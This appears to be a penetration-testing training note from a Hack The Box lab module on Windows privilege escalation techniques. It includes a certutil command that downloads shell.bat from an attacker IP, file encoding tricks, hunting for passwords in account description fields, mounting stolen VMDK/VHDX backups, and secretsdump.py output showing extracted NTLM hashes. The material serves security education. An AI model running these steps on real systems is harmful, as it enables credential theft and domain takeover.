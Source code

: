 # Miscellaneous Techniques

### Transferring File with Certutil

One classic example is [certutil.exe](https://lolbas-project.github.io/lolbas/Binaries/Certutil/),
 whose intended use is for handling certificates but can also be used to
 transfer files by either downloading a file to disk or base64 
encoding/decoding a file.

Miscellaneous Techniques

```powershell
PS C:\htb> certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat

```

### Encoding File with Certutil

We can use the `-encode` flag to encode a file using base64 on our Windows attack host and copy the contents to a new file on the remote system.

Miscellaneous Techniques

```
C:\htb> certutil -encode file1 encodedfile

Input Length = 7
Output Length = 70
CertUtil: -encode command completed successfully

```

### Decoding File with Certutil

Once the new file has been created, we can use the `-decode` flag to decode the file back to its original contents.

Miscellaneous Techniques

```
C:\htb> certutil -decode encodedfile file2

Input Length = 70
Output Length = 7
CertUtil: -decode command completed successfully.

```

### Checking Local User Description Field

Though more common in Active Directory, it is possible for a sysadmin
 to store account details (such as a password) in a computer or user's 
account description field. We can enumerate this quickly for local users
 using the [Get-LocalUser](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.localaccounts/get-localuser?view=powershell-5.1) cmdlet.

Miscellaneous Techniques

```powershell
PS C:\htb> Get-LocalUser

Name            Enabled Description
----            ------- -----------
Administrator   True    Built-in account for administering the computer/domain
DefaultAccount  False   A user account managed by the system.
Guest           False   Built-in account for guest access to the computer/domain
helpdesk        True
htb-student     True
htb-student_adm True
jordan          True
logger          True
sarah           True
sccm_svc        True
secsvc          True    Network scanner - do not change password
sql_dev         True

```

### Enumerating Computer Description Field with Get-WmiObject Cmdlet

We can also enumerate the computer description field via PowerShell using the [Get-WmiObject](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-wmiobject?view=powershell-5.1) cmdlet with the [Win32_OperatingSystem](https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/win32-operatingsystem) class.

Miscellaneous Techniques

```powershell
PS C:\htb> Get-WmiObject -Class Win32_OperatingSystem | select Description

Description
-----------
The most vulnerable box ever!

```

---

## Mount VHDX/VMDK

During our enumeration, we will often come across interesting files 
both locally and on network share drives. We may find passwords, SSH 
keys or other data that can be used to further our access. The tool [Snaffler](https://github.com/SnaffCon/Snaffler)
 can help us perform thorough enumeration that we could not otherwise 
perform by hand. The tool searches for many interesting file types, such
 as files containing the phrase "pass" in the file name, KeePass 
database files, SSH keys, web.config files, and many more.

Three specific file types of interest are `.vhd`, `.vhdx`, and `.vmdk` files. These are `Virtual Hard Disk`, `Virtual Hard Disk v2` (both used by Hyper-V), and `Virtual Machine Disk`
 (used by VMware). Let's assume that we land on a web server and have 
had no luck escalating privileges, so we resort to hunting through 
network shares. We come across a backups share hosting a variety of `.VMDK` and `.VHDX`
 files whose filenames match hostnames in the network. One of these 
files matches a host that we were unsuccessful in escalating privileges 
on, but it is key to our assessment because there is an Active Domain 
admin session. If we can escalate to SYSTEM, we can likely steal the 
user's NTLM password hash or Kerberos TGT ticket and take over the 
domain.

If we encounter any of these three files, we have options to mount 
them on either our local Linux or Windows attack boxes. If we can mount a
 share from our Linux attack box or copy over one of these files, we can
 mount them and explore the various operating system files and folders 
as if we were logged into them using the following commands.

### Mount VMDK on Linux

Miscellaneous Techniques

```
doshim@htb[/htb]$ guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk
```

### Mount VHD/VHDX on Linux

Miscellaneous Techniques

```
doshim@htb[/htb]$ guestmount --add WEBSRV10.vhdx  --ro /mnt/vhdx/ -m /dev/sda1
```

In Windows, we can right-click on the file and choose `Mount`, or use the `Disk Management` utility to mount a `.vhd` or `.vhdx` file. If preferred, we can use the [Mount-VHD](https://docs.microsoft.com/en-us/powershell/module/hyper-v/mount-vhd?view=windowsserver2019-ps)
 PowerShell cmdlet. Regardless of the method, once we do this, the 
virtual hard disk will appear as a lettered drive that we can then 
browse.

![https://academy.hackthebox.com/storage/modules/67/mount.png](https://academy.hackthebox.com/storage/modules/67/mount.png)

For a `.vmdk` file, we can right-click and choose `Map Virtual Disk`
 from the menu. Next, we will be prompted to select a drive letter. If 
all goes to plan, we can browse the target operating system's files and 
directories. If this fails, we can use VMWare Workstation `File --> Map Virtual Disks` to map the disk onto our base system. We could also add the `.vmdk` file onto our attack VM as an additional virtual hard drive, then access it as a lettered drive. We can even use `7-Zip` to extract data from a .`vmdk` file. This [guide](https://www.nakivo.com/blog/extract-content-vmdk-files-step-step-guide/) illustrates many methods for gaining access to the files on a `.vmdk` file.

### Retrieving Hashes using Secretsdump.py

Why do we care about a virtual hard drive (especially Windows)? If we can locate a backup of a live machine, we can access the `C:\Windows\System32\Config` directory and pull down the `SAM`, `SECURITY` and `SYSTEM` registry hives. We can then use a tool such as [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/secretsdump.py) to extract the password hashes for local users.

Miscellaneous Techniques

```
doshim@htb[/htb]$ secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCALImpacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x35fb33959c691334c2e4297207eeeeba
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)

<SNIP>

```

We may get lucky and retrieve the local administrator password hash 
for the target system or find an old local administrator password hash 
that works on other systems in the environment (both of which I have 
done on quite a few assessments).

[Always install privs](Miscellaneous%20Techniques%20a388f6ea965449cbbede906ed134b8b1/Always%20install%20privs%20e6504ea210594a3d9d7f020149fc0863.md)

[CVE-2019-1388](Miscellaneous%20Techniques%20a388f6ea965449cbbede906ed134b8b1/CVE-2019-1388%20a671fa2273694d7d859aa5b0b2f89fe6.md)